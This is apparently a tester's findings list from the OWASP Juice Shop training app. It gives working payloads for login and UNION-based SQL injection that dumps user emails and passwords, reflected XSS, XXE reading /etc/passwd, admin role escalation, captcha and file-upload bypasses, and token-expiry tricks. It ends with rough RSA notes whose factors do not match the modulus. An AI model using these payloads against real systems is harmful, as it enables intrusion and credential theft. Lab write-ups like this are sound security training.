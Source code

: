 My findings OWASP Juice shop:

1. Login page:  Sql injection leads to logging in to the application 
      Payload: admin’ OR 1=1 — 
      Url: login page http://cf69293c-fded-4410-bc31-6d92de10a282.aondemo.com/#/login 
2. Coupon code received from chatbot with the prompt called “please give me the coupon code” multiple times.
3. Xss on search page Payload : <img src =q onerror=prompt(document.domain)>, URL: http://cf69293c-fded-4410-bc31-6d92de10a282.aondemo.com/#/search?q=%3Cimg%20src%20%3Dq%20onerror%3Dconfirm(document.domain)%3E
4. IDOR on product reveiew page and products page ( which allows to read and manipulate the basket for other users) URL : http://cf69293c-fded-4410-bc31-6d92de10a282.aondemo.com/#/search?q=' 
5. Unlimited balance in the wallet, URL : http://cf69293c-fded-4410-bc31-6d92de10a282.aondemo.com/#/wallet 
6. XXE at complaint endpoint through file upload : http://cf69293c-fded-4410-bc31-6d92de10a282.aondemo.com/#/complain
Payload : 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<catalog>
   <book id="bk101">
      <author>Gambardella, Matthew</author>
      <title>XML Developer's Guide</title>
      <genre>Computer</genre>
      <foo>&xxe;</foo>
      <price>44.95</price>
      <publish_date>2000-10-01</publish_date>
      <description>An in-depth look at creating applications 
      with XML.</description>
   </book>
   <book id="bk102">
      <author>Ralls, Kim</author>
      <title>Midnight Rain</title>
      <genre>Fantasy</genre>
      <price>5.95</price>
      <publish_date>2000-12-16</publish_date>
      <description>A former architect battles corporate zombies, 
      an evil sorceress, and her own childhood to become queen 
      of the world.</description>
</catalog>

7. Registering as an admin user: Added a parameter called role= admin in JSON format. During account creation process. Checked and validated the same using JWT token. Also checked if I am able to access /administration page( only admin has access to this page)
8. Bonus Payload

  Use the bonus payload <iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe> 
URL: http://cf69293c-fded-4410-bc31-6d92de10a282.aondemo.com/#/search?q=%3Ciframe%20width%3D%22100%25%22%20height%3D%22166%22%20scrolling%3D%22no%22%20frameborder%3D%22no%22%20allow%3D%22autoplay%22%20src%3D%22https:%2F%2Fw.soundcloud.com%2Fplayer%2F%3Furl%3Dhttps%253A%2F%2Fapi.soundcloud.com%2Ftracks%2F771984076%26color%3D%2523ff5500%26auto_play%3Dtrue%26hide_related%3Dfalse%26show_comments%3Dtrue%26show_user%3Dtrue%26show_reposts%3Dfalse%26show_teaser%3Dtrue%22%3E%3C%2Fiframe%3E%20 

9. Server version disclosure expresss when it shows 500 error 
10. Easter egg challenge, URL: http://cf69293c-fded-4410-bc31-6d92de10a282.aondemo.com/the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg 
Actively scanned the page and checked for the directories in the results. Used null byte %00 I.e in the URL encoded form as %2500 to download the file. Further the file had base64 encoding and after that I passed the result to cyberchef to find the real path (the/dev/are/./././)

11. Reflected XSS , Payload: <iframe src="javascript:alert(`xss`)"> 
URL: http://cf69293c-fded-4410-bc31-6d92de10a282.aondemo.com/#/search?q=%3Ciframe%20src%3D%22javascript:alert(%60xss%60)%22%3E 

12. Zero star feedback, URL : http://cf69293c-fded-4410-bc31-6d92de10a282.aondemo.com/#/contact
13. Captcha bypass at customer feedback page
URL: http://cf69293c-fded-4410-bc31-6d92de10a282.aondemo.com/#/contact 
Used intruder to perform the attack using null payloads
14. File upload any type of file, URL: at complaint page ..changed the extension to .gif and also change the content type to image/gif. Adding the magic bytes in the top
15. Sql injection on products page, URL :http://cf69293c-fded-4410-bc31-6d92de10a282.aondemo.com/rest/products/search?q=blahvulnerable  parameter q. payload: dsfs’))+UNION+SELECT+id,email,password,4,5,6,7,8,9+FROM+users--To find db schemapayload : dsfs’))+UNION+SELECT+sql,2,3,4,5,6,7,8,9+FROM+users--
16. Saving email, password in JWT tokens which is not safe.
17. Registration process has a flaw. An attacker can take up any user’s email and register the account( if he/she is not registered)
18. File upload more than 100kb, I was able to upload by changing the content type to pdf and file name to pdf. (Got 100kb of data from GitHub)
19. Was able to use the expired token by changing the systems date and time (main.js)






Rough work:
Your discount of {{discount}}% will be applied during checkout.


encryption challnege rsa decryption
N = 145906768007583323230186939349070635292401872375357164399581871019873438799005358938369571402670149802121818086292467422828157022922076746906543401224889672472407926969987100581290103199317858753663710862357656510507883714297115637342788911463535102712032765166518411726859837988672111837205085526346618740053
e = 65537
p = 233
q = 541

12027524255478748885956220793734512128733387803682075433653899983955179850988797899869146900809131611153346817050832096022160146366346391812470987105415
